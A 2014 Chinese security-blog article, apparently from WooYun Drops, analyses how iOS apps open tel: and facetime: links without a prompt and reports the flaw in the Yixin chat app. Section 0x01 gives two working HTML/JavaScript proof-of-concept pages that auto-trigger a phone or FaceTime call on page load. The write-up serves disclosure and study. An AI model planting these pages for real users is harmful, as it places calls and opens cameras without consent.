





# iOS 应用自动拨打电话，开启摄像头缺陷

2014/08/27 16:41 | [Ano_Tom](http://drops.wooyun.org/author/Ano_Tom "由 Ano_Tom 发布") | [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 背景

* * *

国外一安全研究者发现该缺陷，在 iOS 设备上的某些应用里（其测试的 Google+、Facebook Messenger、Gmail 都成功触发），当用户点击了构造好的链接时，会自动拨打电话，或开启 facetime，从而打开前置摄像头，且无任何提醒。缺陷产生的原因是开发者没有看清官方开发文档对于 Phone Links 和 FaceTime Links 中这样的一条说明，“当用户在本地应用里打开该类型的链接时，iOS 并不展示提醒窗口"，从而导致缺陷的产生。

## 0x01 缺陷描述

* * *

查看苹果官方文档，对于 URL 方案的规定大致有如下几种类型：

### 1）Mail Links（发送邮件）

点击该类型的链接后，会自动调用邮件应用，且 mailto URL 必须指定一个收件地址。

网页链接中的字符串格式如下

```
<a href="mailto:frank@wwdcdemo.example.com">John Frank</a> 
```

本地应用上的 URL 字符串格式为

```
mailto:frank@wwdcdemo.example.com 
```

当然也可以在字符串中添加主题等内容，比如

```
mailto:foo@example.com?cc=bar@example.com&subject=Greetings%20from%20Cupertino!&body=Wish%20you%20were%20here! 
```

具体的 mailto 格式可以查看 RFC 文档

[`www.ietf.org/rfc/rfc2368.txt`](http://www.ietf.org/rfc/rfc2368.txt)

### 2）Phone Links（拨打电话）

tel 类型的 URL 是用来开启 iOS 设备上拨打电话的应用，并且拨打指定的号码。当用户在网页中点击了一个该类型的链接时，iOS 设备会弹出提醒窗口，询问用户是否拨打该号码，若用户同意则开始拨打电话。但是当用户在本地应用里打开该类型的链接时，iOS 并不展示提醒窗口，而是直接拨打指定的电话。当然本地应用可以配置是否显示提醒。

比如在网页中嵌入一个 a 标签，内容为

```
<a href="tel:10086">fuck it</a> 
```

那么访问该页面，点击 fuck it 链接后自动弹出拨打电话的提醒。如图 1



官方文档同时给出了本地应用里的 url 形式，本地应用中 URL 字符串为 tel:1-408-555-5555

在短信页面输入 tel://10086 点击后会提示拨打电话，如图 2



同时防止恶意的请求，链接里包含* #字符时，系统并不会拨打该号码。而且 iOS 上的电话号码的识别检测是默认开启的，如果想让网页上包含的数字不被识别为手机号码，则需要在网页中加入如下的标签

```
<meta name = "format-detection" content = "telephone=no"> 
```

具体的 URL 方案可以查看如下 RFC 文档，

[`www.ietf.org/rfc/rfc2396.txt`](http://www.ietf.org/rfc/rfc2396.txt)
[`www.ietf.org/rfc/rfc2806.txt`](http://www.ietf.org/rfc/rfc2806.txt)

### 3）FaceTime Links（开启 facetime，开启前置摄像头）

FaceTime 类型的 URL 是用来调用 FaceTime 应用拨打指定的用户，可以是电话号码或者是绑定的邮箱地址。当用户在网页里点开 FaceTime 类型的 URL 时，系统会提示是否拨打；但是当在本地应用里点击该类型的 URL 时，iOS 直接开启 FaceTime 应用拨打电话，而无提醒。本地应用可以配置是否显示提醒。
网页中的链接格式为

```
<a href="facetime:14085551234">Connect using FaceTime</a>
<a href="facetime:user@example.com">Connect using FaceTime</a> 
```

本地应用中 URL 字符串为

```
facetime:// 14085551234
facetime://user@example.com 
```

当然防止恶意请求，链接里包含* #字符时，系统并不会拨打该号码。而且 iOS7 之前的系统，用该协议拨打电话时候，是用的默认普通的拨打电话的应用而不是 FaceTime 应用

### 4）SMS Links（发送短信）

SMS 方案是用来打开短信应用，其 URL 格式如下 sms: <phone>其中</phone> <phone>指定目标用户的号码，可以包含 0 到 9 的数组和+-.三个字符，并且 URL 字符串不能包含任何其他的文本信息</phone>

网页中的链接格式为

```
<a href="sms:">Launch Messages App</a>
<a href="sms:1-408-555-1212">New SMS Message</a> 
```

本地应用中 URL 字符串为

```
sms:1-408-555-1212 
```

### 5）其他类型的 Links

其他像 Map Links（打开地图）、iTunes Links（打开 iTunes）、YouTube Links（打开 YouTube）等不一一介绍，是点击指定的链接后打开相应的地图、iTunes 应用等，详细查看苹果官方开发文档。

由上述的介绍可以看出，其中可以利用的有 Phone Links 和 FaceTime Links。因为其中都有一条这样的描述，如果链接是在本地应用里，则点击的话会直接调用相关系统应用，而没有任何提醒。

即如果在应用里直接输入 tel://xxxx、facetime://xxxx 类似的字符，会直接调用相关拨号应用。同样我们可以在应用里输入网页链接，然后在网页内容里嵌入这样的 a 标签链接，然后利用 js 实现加载网页时自动点击该 a 标签链接。

所以具体的测试代码如下，将其保存为 html 文件即可。

```
<a id="target" href="facetime:HackForFreedom@fbi.com">click me</a> 
<script> 
var target = document.getElementById("target"); 
var fakeEvent = document.createEvent("MouseEvents"); 
fakeEvent.initEvent("click", true, false); 
target.dispatchEvent(fakeEvent); 
</script> 
```

或者如下

```
<html>
<head>
    <title>v</title>
</head>
<body>
    <a id="dial" href="tel:10086">fuck it</a>
</body>
<script type="text/javascript">
<!--
window.onload = function()
{
    window.location.href = document.getElementById("dial").href;
};
//-->
</script>
</html> 
```

tel:xxxxx 表示要拨打的电话，点击该链接后则自动拨打电话；

facetiem:xxxxx 表示拨打的 facetime 帐号，点击该链接后自动开启摄像头，无任何提醒；

> 注：其中第二个代码在某些应用里测试没有执行成功，第一个代码在应用里基本能执行成功。

## 0x02 案例测试

* * *

测试了国内的几个常用的聊天类应用，基本都存在该缺陷，已经报告给厂商，修复可能需要一段时间。这里以在乌云上提交的易信为案例（官方将发布新版本）。
测试版本为 iOS 版本 6.1.4、易信 V2.9.0.1680

在朋友圈发布该 url，如图 3



好友点击后自动拨打电话或开启 FaceTime，如图 2、图 3





## 0x03 如何修复

* * *

在苹果官方开发文档给出的说明上，在本地应用打开相应的 URL 是可以配置提醒设置的。所以可能是开发者对苹果 URL 的规范未全面了解，疏忽导致了该问题。由于未接触过 iOS 开发，所以具体的修复不清楚。:)

References：

[`algorithm.dk/posts/rtfm-0day-in-ios-apps-g-gmail-fb-messenger-etc`](http://algorithm.dk/posts/rtfm-0day-in-ios-apps-g-gmail-fb-messenger-etc)
[`developer.apple.com/library/ios/featuredarticles/iPhoneURLScheme_Reference/PhoneLinks/PhoneLinks.html#//apple_ref/doc/uid/TP40007899-CH6-SW1`](https://developer.apple.com/library/ios/featuredarticles/iPhoneURLScheme_Reference/PhoneLinks/PhoneLinks.html#//apple_ref/doc/uid/TP40007899-CH6-SW1)
[`developer.apple.com/library/ios/featuredarticles/iPhoneURLScheme_Reference/PhoneLinks/PhoneLinks.html#//apple_ref/doc/uid/TP40007899-CH6-SW1`](https://developer.apple.com/library/ios/featuredarticles/iPhoneURLScheme_Reference/PhoneLinks/PhoneLinks.html#//apple_ref/doc/uid/TP40007899-CH6-SW1)

版权声明：未经授权禁止转载 [Ano_Tom](http://drops.wooyun.org/author/Ano_Tom "由 Ano_Tom 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [HttpOnly 隐私嗅探器](http://drops.wooyun.org/tips/2834)
*   [弱随机化种子漏洞科普](http://drops.wooyun.org/papers/1419)
*   [WordPress 3.8.2 cookie 伪造漏洞再分析](http://drops.wooyun.org/papers/1409)
*   [CVE-2012-0053 详解](http://drops.wooyun.org/papers/501)
*   [远程备份数据库和文件的方法](http://drops.wooyun.org/tips/783)
*   [安卓 Bug 17356824 BroadcastAnywhere 漏洞分析](http://drops.wooyun.org/papers/3912)